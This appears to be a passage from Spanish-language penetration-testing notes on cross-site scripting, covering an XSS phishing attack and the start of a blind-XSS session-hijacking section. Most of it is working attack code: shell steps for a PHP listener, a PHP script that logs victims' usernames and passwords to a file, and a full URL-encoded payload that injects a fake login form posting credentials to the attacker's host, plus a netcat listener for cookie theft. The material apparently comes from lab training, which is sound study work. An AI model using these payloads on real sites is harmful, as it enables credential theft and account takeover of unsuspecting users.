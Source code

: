 ```python
[!bash!]$ mkdir /tmp/tmpserver
[!bash!]$ cd /tmp/tmpserver
[!bash!]$ nano index.php #at this step we wrote our index.php file
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.103.8/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```python
[!bash!]$ sudo php -S 0.0.0.0:8080
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Lo guardamos con el nombre `index.php` e iniciamos en esa carpeta un servidor php para servir la página.

------------------------------
Con todo probado , nos queda enviar el enlace con la inyección a la victima:
```
http://SERVER_IP/phishing/index.php?url=%27%3C%2Fimg%3E+%3Cscript%3E+document.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.88%3A8080%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29+%3C%2Fscript%3E+%3Cscript%3E+document.getElementsByTagName%28%27h1%27%29%5B0%5D.parentNode.removeChild%28document.getElementsByTagName%28%27h1%27%29%5B0%5D%29%3B+%3C%2Fscript%3E+%3Cscript%3E+document.getElementById%28%27urlform%27%29.remove%28%29%3B+%3C%2Fscript%3E+%3C%21--+
```
cuando la víctima inicie sesión se conectará a nuestra máquina en la que servimos el script php , se guardaran las credenciales y le redigiremos a la página sin la inyección.

## Session Hijacking (Blind XSS)

 Recopilar sus cookies y enviarlas a nuestro servidor para secuestrar su sesión iniciada , también llamado `Cookie Stealing` o `Session Hijacking`.

### Detección de Blind XSS

Una vulnerabilidad XSS ciega se produce cuando la vulnerabilidad se activa en una página a la que no tenemos acceso.

Iniciamos un servidor usando `netcat`o `php` en la carpeta que queremos:

```python
$ sudo nc -lvnp 8080
listening on [any] 8080 ...
```
